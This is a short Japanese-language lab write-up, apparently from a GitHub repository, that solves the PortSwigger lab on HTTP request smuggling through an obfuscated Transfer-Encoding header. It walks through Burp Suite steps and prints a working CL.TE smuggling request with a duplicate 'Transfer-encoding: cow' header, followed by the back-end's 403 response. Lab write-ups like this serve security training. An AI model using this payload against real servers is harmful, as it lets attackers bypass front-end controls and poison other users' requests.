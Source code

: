 # HTTP リクエストの密輸、TE ヘッダーの難読化

以下のハッキングラボを実施します  
https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header

このラボにはフロントエンド サーバーとバックエンド サーバーが含まれており、2 つのサーバーは重複した HTTP 要求ヘッダーを異なる方法で処理します。フロントエンド サーバーは、GET メソッドまたは POST メソッドを使用しないリクエストを拒否します。

- 1. Burp Suite を起動して、proxy タブからブラウザを立ち上げます

* 2. ブラウザからハッキングラボにアクセスします

- 3. GET / リクエストを send to repeater します
- 4. Repeater のリクエストを表示した状態で右クリックして change to request を選択して、POST リクエストに切り替えます

* 5. Setting で Repeater の Update content length のチェックボックスを外します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/8b1031a6-e20f-4f61-b906-8b54d6d8a882)

* 6. リクエストを以下のように書き換えて 2 回送信します

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

2 回目のレスポンスがバックエンドから返されます

```
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```
